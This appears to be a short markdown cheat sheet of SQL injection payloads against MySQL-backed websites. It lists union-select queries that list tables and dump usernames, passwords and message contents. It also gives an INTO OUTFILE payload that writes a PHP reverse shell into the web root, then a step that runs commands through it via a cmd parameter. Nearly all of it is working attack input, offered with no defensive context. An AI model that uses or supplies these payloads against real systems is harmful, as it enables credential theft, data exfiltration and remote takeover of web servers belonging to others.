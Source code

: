 # uploading File with Mysql
1.
```<VALUE>' union select 1, @@version-- -```
2.
```<VALUE>' union select 1, table_name FROM information_schema.tables-- -```

> uploading:
```<VALUE>' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY <Sting to Text"php rev shell">#```

> then go to http://example.com/shell.php?cmd=`<exec>`

#List For Extract Data

1: 
```
12 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
2: 
```
12 union select 1,group_concat(username,password),3,4 from users   // select what u see in Data //
```
3: 
```
12 union select 1,group_concat(message_content),3,4 from messages    
```
